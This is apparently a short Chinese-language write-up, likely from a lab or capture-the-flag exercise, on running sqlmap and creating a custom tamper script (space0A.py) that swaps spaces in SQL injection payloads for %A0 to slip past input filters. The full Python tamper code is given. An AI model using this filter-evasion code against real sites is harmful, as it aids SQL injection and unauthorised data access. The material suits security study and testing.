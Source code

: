 ## SQLMAP

sqlmap跑的话要切换php-5.2.17的版本

### 修改脚本

space2plus.py：空格替换为加号

在sqlmap的tamper目录下新建space0A.py文件,把space2plus.py脚本中内容复制过来,+改成`%A0`。

```
#!/usr/bin/env python

"""
Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
See the file 'LICENSE' for copying permission
"""

from lib.core.enums import PRIORITY

__priority__ = PRIORITY.LOW

def dependencies():
    pass

def tamper(payload, **kwargs):
    """
    Replaces space character (' ') with plus ('%A0')

    Notes:
        * Is this any useful? The plus get's url-encoded by sqlmap engine invalidating the query afterwards
        * This tamper script works against all databases

    >>> tamper('SELECT id FROM users')
    'SELECT%A0id%A0FROM%A0users'
    """

    retVal = payload

    if payload:
        retVal = ""
        quote, doublequote, firstspace = False, False, False

        for i in xrange(len(payload)):
            if not firstspace:
                if payload[i].isspace():
                    firstspace = True
                    retVal += "%A0"
                    continue

            elif payload[i] == '\'':
                quote = not quote

            elif payload[i] == '"':
                doublequote = not doublequote

            elif payload[i] == " " and not doublequote and not quote:
                retVal += "%A0"
                continue

            retVal += payload[i]

    return retVal
```